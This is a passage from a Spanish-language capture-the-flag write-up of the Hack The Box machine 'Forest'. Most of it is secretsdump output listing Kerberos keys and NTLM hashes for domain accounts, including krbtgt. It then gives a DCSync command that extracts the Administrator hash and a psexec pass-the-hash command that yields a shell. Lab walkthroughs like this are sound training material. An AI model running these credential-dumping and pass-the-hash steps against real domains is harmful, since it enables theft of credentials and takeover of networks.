EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
FOREST$:aes256-cts-hmac-sha1-96:d409d743b2d787ba4a45692058388533840bb55a4d1fd65f8e345164d2df5078
FOREST$:aes128-cts-hmac-sha1-96:c7306933e272b5b5992f9c9ff688eaa2
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...

Logramos obtener los hashes de la mayoria de usuarios, podemos obtener el de un solo usuario, en este caso el que nos interesa es el del usuario administrator.
root@kali:~/tools/impacket# secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -just-dc-user administrator
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Cleaning up...

Utilizamos psexec.py para obtener nuestra flag root.txt y una shell.
rlwrap psexec.py htb.local/administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6